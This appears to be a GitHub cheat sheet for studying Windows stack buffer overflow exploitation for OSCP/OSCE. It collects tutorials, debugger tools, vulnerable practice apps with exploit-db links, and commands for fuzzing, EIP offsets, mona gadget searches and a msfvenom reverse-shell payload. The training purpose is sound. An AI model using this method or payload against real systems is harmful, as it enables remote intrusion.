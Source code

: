 # Buffer Overflow Cheat Sheet
## Tutorials / Methodologies
* https://github.com/gh0x0st/Buffer_Overflow
* https://infosecsanyam261.gitbook.io/tryharder/buffer-overflow
* https://blog.own.sh/introduction-to-network-protocol-fuzzing-buffer-overflow-exploitation/
* https://veteransec.com/2018/09/10/32-bit-windows-buffer-overflows-made-easy/
* https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/buffer-overflow
* https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/
* https://eazeysec.com/BOF-Method/
* http://www.primalsecurity.net/tutorials/exploit-tutorials/
* http://www.fuzzysecurity.com/tutorials.html
* Jump to shellcode:
  * https://www.abatchy.com/2017/05/jumping-to-shellcode.html
  * https://www.securitysift.com/windows-exploit-development-part-4-locating-shellcode-jumps/

## Common Tips
1. Running Vulnerable-apps, then use netcat to makesure the shell connection, and test the function for buffer storing
```
netcat <target_ip> <port>
```

2. Fuzzing ([Script](https://github.com/rdoix/Buffer-Overflow-Cheat-Sheet/blob/master/Fuzzer.py))

3. Add pattern for crash replication and controlling EIP
```
msf-pattern_create -l $length
msf-pattern_offset -q $EIP
```

  4. Compare the bad chars
```
   !mona bytearray
   !mona compare -f C:\mona\output.bin -a <address>
```

  5. keep the same order of outputs
```
msf-nasm_shell
   nasm > jmp esp
   00000000  FFE4              jmp esp
```

  6. show and select a dll module
```
!mona modules
```  
  7. find address of "jmp esp" (xff xe4)
```
!mona find -s "\xff\xe4" -m "suspectmodule.dll"
```
  8. find "pop,pop,ret" for SEH
```
!mona seh -m "$module"
```
  9. generate Windows reverse shell
```
msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f c -e x86/shell -b "\x00"
```

## Tools
* [Immunity Debugger](https://www.immunityinc.com/products/debugger/): A powerful new way to write exploits, analyze malware, and reverse engineer binary files ([whitepaper](https://www.sans.org/reading-room/whitepapers/malicious/basic-reverse-engineering-immunity-debugger-36982), [course](https://yaksas-csc.teachable.com/p/immunity-debugger-for-exploit-devs-ycsc-lab-essentials))

* [OllyDbg](http://www.ollydbg.de/): A 32-bit assembler level analysing debugger for Microsoft Windows ([tut]())

* [Windbg](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools): A kernel-mode and user-mode debugger that is included in Debugging Tools for Windows ([tut]())

* [edb](https://github.com/eteran/edb-debugger): A Linux equivalent of the famous Olly debugger on the Windows platform.

* [Boofuzz](https://github.com/jtpereyda/boofuzz): Network Protocol Fuzzing for Humans

* [mona](https://github.com/corelan/mona): A Python script that can be used to automate and speed up specific searches while developing exploits (typically for the Windows platform) ([tut](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/), [cheatsheet](https://www.corelan.be/index.php/2010/01/26/starting-to-write-immunity-debugger-pycommands-my-cheatsheet/))
```
!mona findmsp
!mona modules [ -o ]: (-o: only in the application which is more reliable)
!mona jmp -r esp [ -o ] 
!mona seh       
!mona seh -m -o
!mona bytearray -cpb "\x00"
!mona compare -f c:\mona\pcmanftpd2\bytearray.bin -a 0012ED6C
!mona find -s "\xff\xe4" -m "libspp.dll"
!mona findmsp
```
* [WinDBG](http://www.windbg.org/): A kernel-mode and user-mode debugger that is included in Debugging Tools for Windows

## Exploitation for Practice
* PWK 2020
  * - [x] SyncBreeze version 10.0.28 ([exploit](https://www.exploit-db.com/exploits/42928), [code](https://github.com/Hamza-Megahed/pentest-with-shellcode/tree/master/10-real-world-scenarios-part2))
  * - [x] PWK Crossfire-server 1.9.0 ([exploit](https://www.exploit-db.com/exploits/1582))
  * - [x] PWK Extra Mile Exercises: VulnApp1.exe, VulnApp2.exe, and VulnApp3.exe
  * - [x] PWK Fixing Exploits Sync Breeze Enterprise 10.0.28
* Vunlserver ([github](https://github.com/stephenbradshaw/vulnserver), [tut](http://www.thegreycorner.com/p/vulnserver.html?m=1), [exploited functions](https://limbenjamin.com/articles/vulnserver-order-of-difficulty.html), [TRUN exploit](https://fullpwnops.com/vulnserver-trun/))
* Easy File Sharing Web Server 7.2 ([exploit](http://strongcourage.github.io/2020/04/19/bof.html), [code](https://github.com/Hamza-Megahed/pentest-with-shellcode/tree/master/11-real-world-scenarios-part3), [tut](https://h0mbre.github.io/Easy_File_Sharing_Web_Server/))
* Seattle Lab Mail (SLmail) 5.5 ([python exploit](https://www.exploit-db.com/exploits/638), [C exploit](https://www.exploit-db.com/exploits/646))
* Freefloat FTP Server 1.0 ([exploit](https://www.exploit-db.com/exploits/17546))
* MiniShare 1.4.1 ([exploit](https://www.exploit-db.com/exploits/636))
* Savant Web Server 3.1 ([exploit](https://www.exploit-db.com/exploits/10434))
* WarFTP 1.65 ([exploit](https://www.exploit-db.com/exploits/3570))
* BigAnt Server 2.52 ([exploit](https://www.exploit-db.com/exploits/10973), [tut](http://www.primalsecurity.net/0x3-exploit-tutorial-buffer-overflow-seh-bypass/))
* ASX to MP3 Converter 1.82.50 ([exploit](https://www.exploit-db.com/exploits/38457), [tut](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/))
* Easy RM to MP3 Converter ([exploit](https://www.exploit-db.com/exploits/9186))
* Zip-n-Go 4.9 ([exploit](https://www.exploit-db.com/exploits/44828), [FileFuzz](http://www.fuzzing.org/wp-content/FileFuzz.zip))
* IDSECCONF 2013 myftpd challenge ([tut-xp](https://buffered.io/posts/idsecconf-2013-myftpd-challenge/), [tut-win7](https://buffered.io/posts/myftpd-exploit-on-windows-7/))
* QuickZip 4.x ([exploit](https://www.exploit-db.com/exploits/11656), [tut1](https://www.offensive-security.com/vulndev/quickzip-stack-bof-0day-a-box-of-chocolates/), [tut2](https://blog.knapsy.com/blog/2017/05/01/quickzip-4-dot-60-win7-x64-seh-overflow-egghunter-with-custom-encoder/))
* Easy Chat Server 3.1 ([tut](https://www.onsecurity.co.uk/blog/buffer-overflow-easy-chat-server-31))
* dostackbufferoverflowgood ([exploit & tut](https://github.com/justinsteven/dostackbufferoverflowgood))
* Vulnhub machines: [Brainpan series](https://www.vulnhub.com/series/brainpan,32/), [SmashTheTux: 1.0.1](https://www.vulnhub.com/entry/smashthetux-101,138/), [Cyberry: 1](https://www.vulnhub.com/entry/cyberry-1,217/), [Pinky’s Palace series](https://www.vulnhub.com/series/pinkys-palace,151/), [Lord Of The Root: 1.0.1](https://www.vulnhub.com/series/lord-of-the-root,67/)

### Structured Exception Handler (SEH)
* Konica Minolta FTP Utility 1.00 ([exploit](https://www.exploit-db.com/exploits/39215), [tut](https://www.youtube.com/watch?v=v0C4M0UpDbc))
* Millenium MP3 Studio 2.0 ([exploit](https://www.exploit-db.com/exploits/10240), [tut](https://fullpwnops.com/local-seh-overflow/))
* IntraSRV 1.0 ([exploit](https://cxsecurity.com/issue/WLB-2019100164), [tut](https://fullpwnops.com/CVE-2019-17181-intrasrv-writeup/))
* File Sharing Wizard 1.5.0 ([exploit](https://www.exploit-db.com/exploits/47412), [tut](https://fullpwnops.com/CVE-2019-16724-Remote-Unauthenticated-SEH-overflow/))

### More Targets
* https://github.com/freddiebarrsmith/Buffer-Overflow-Exploit-Development-Practice
* https://www.vortex.id.au/2017/05/pwkoscp-stack-buffer-overflow-practice/
* https://exploit.education/
* https://overthewire.org/wargames/narnia/
* Useful links: https://github.com/security-prince/PWK-OSCP-Preparation-Roadmap/blob/master/BOF

### Advanced Topics for OSCE
* Windows drivers: https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
* https://github.com/dhn/OSCE
* https://purpl3f0xsec.tech/2019/06/18/osce-prep-1.html
* Windows Exploitation Pathway
* https://github.com/epi052/OSCE-exam-practice

## Books
* Hacking - The Art of Exploitation
* The Shellcoder’s Handbook: Discovering and Exploiting Security Holes
* Buffer Overflow Attacks: Detect, Exploit, Prevent
* Writing Security Tools and Exploits
* Penetration Testing with Shellcode: Detect, exploit, and secure network-level and operating system vulnerabilities
```
# From Kali, run first
~/OSCP/windows_buffer_overflows$ nc -l -p 1234 > VulnApp1.exe
# From Windows
C:\Tools\windows_buffer_overflows> nc -w 3 192.168.119.223 1234 < VulnApp1.exe

# Windows 10: Bridged Adapter network
# Kali: NAT network
```

* Download windows 10 x86 ISO: https://www.microsoft.com/en-gb/software-download/windows10ISO

# 
_Reffrence http://strongcourage.github.io/2020/04/19/bof.html_
